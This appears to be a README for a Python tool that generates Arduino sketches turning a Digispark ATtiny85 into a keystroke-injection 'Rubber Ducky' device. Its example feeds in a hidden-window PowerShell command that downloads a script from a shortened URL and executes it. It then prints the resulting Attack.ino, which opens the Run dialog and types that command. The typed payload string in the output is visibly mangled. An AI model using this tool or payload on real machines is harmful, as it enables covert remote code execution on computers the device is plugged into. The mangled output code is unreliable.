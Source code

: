 # Digispark ATtiny85 as a Cheap "USB Rubber Ducky"

##Usage
    python DigiDuck.py
    Enter command to execute: [COMMAND]
  
##Example

    python DigiDuck.py
    Enter command to execute: powershell -window hidden IEX (New-Object System.Net.Webclient).DownloadString('https://tinyurl.com/z766ych')
    Attack.ino file created successfully!

##Ouput

```    
#define KEY_DELETE 76

  void setup() {
  DigiKeyboard.update();
}

void loop() {
  delay(100);
  DigiKeyboard.update();
  delay(100);
  
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  delay(100);
  DigiKeyboard.sendKeyStroke(KEY_DELETE);
  delay(50);
  DigiKeyboard.println("powershell /window hidden IEX *New/Object System.Net.Webclient(.DownloadString*-https>&&tinyurl.com&z766ych-(");
  delay(900000);
}
```
